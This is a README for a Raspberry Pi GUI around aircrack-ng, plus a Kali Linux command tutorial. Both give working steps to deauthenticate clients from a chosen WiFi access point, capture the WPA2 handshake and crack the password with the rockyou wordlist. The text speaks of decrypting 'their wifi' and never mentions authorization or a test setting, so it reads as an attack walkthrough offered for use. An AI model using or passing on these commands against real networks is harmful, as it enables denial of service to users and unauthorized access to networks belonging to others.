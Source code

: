 # Aircrack-Ng-Gui-for-raspberry-pi
gui for the raspberry pi for aircrack ng

requirements:
a raspberry pi that can connect to wifi
a wifi adapter
python on your raspberry pi
mouse for raspberry pi
keyboard for raspberry pi

steps:
write kali linux to your pi
then plug in your wifi adapter
make sure its connected to your computer or screen or gpio screen i dont care it should be connected to something that displays it

<hypothetical steps>
first: kill all processes that might mess up the script with the kill process button
second: connect to wlan0 by clicking the start wlan0
third: scan bssids by using the scan bssid button
fourth: click the list button and select the bssid (you should see the ap name and channel)
fifth: click the deauth button to deauth the selected ap

(if you want to decrypt their wifi:)
one step before deauthing run the createfile script then set the name
it should create a file for the cap with the name you made so then you should run the cap create button
then click the ls button
the file name should be the filename you set it as so then click the wireshark name button
type in the name (eg: test-01.cap) (make sure to include the -01.cap after the name if thats what pops up when you click ls)
then click the wiresharkcheck button and a wireshark window should popup
  when the window pops up click the top of it to search for something and type this in: eapol
  you should see files pop up, if none do then retry these steps. if still nothing pops up then its not my problem
then click the stop wlan0 button
then click the crack wpa2 name button
  
  then type in the same thing you typed in for the wiresharkcheck button (eg: if you typed in test-01.cap then type in the same thing)
  make sure you have Rock you or another wordlist
  Make sure you have rockyou in text format (unzip file on Kali) look up how to unzip rockyou on kali
  if you want to change the wordlist just type in the file location in the script
  
then run the crack wifi password button and wait.
  
  
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  here is a modified tutorial if you want to run it without a raspberry pi, only a kali linux laptop and wifi adapter:



==============================================================================================
See interfaces:

ip addr
iwconfig

==============================================================================================


kill processes:

sudo airmon-ng check kill


==============================================================================================

Start monitor mode:

sudo airmon-ng start wlan0
==============================================================================================


==============================================================================================
Verify that monitor mode is used:

sudo airmon-ng 
==============================================================================================


==============================================================================================
You could also use iwconfig to check that interface is in monitor mode:

iwconfig
==============================================================================================

==============================================================================================
Get the AP's MAC address and channel:
sudo airodump-ng wlan0
==============================================================================================


==============================================================================================
! AP-MAC & channel - you need to select your own here:
ESSID: <essid>
Channel used by AP for SSID: <channel>
==============================================================================================

1st Window:
!Make sure you replace the channel number and bssid with your own
!Replace hack1 with your file name like capture1 or something 
sudo airodump-ng -w <filename> -c <replace with channel> --bssid <bssid> wlan0

==============================================================================================

==============================================================================================

2nd Window - deauth attack:
!Make sure you replace the bssid with your own
sudo aireplay-ng --deauth 0 -a <bssid> wlan0
  type in ctrl c after you captured the handshake

==============================================================================================


==============================================================================================
Use Wireshark to open hack file:

type in ls
then the file name that you typed in should be there:

wireshark <filename>.cap

Filter Wireshark messages for EAPOL (look it up in the wireshark search thing
eapol
==============================================================================================

==============================================================================================
!Stop monitor mode
airmon-ng stop wlan0mon
==============================================================================================

==============================================================================================
Crack file with Rock you or another wordlist
Make sure you have rockyou in text format (unzip file on Kali)
Replace hack1-01.cap with your file name
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 
==============================================================================================

  
  
  
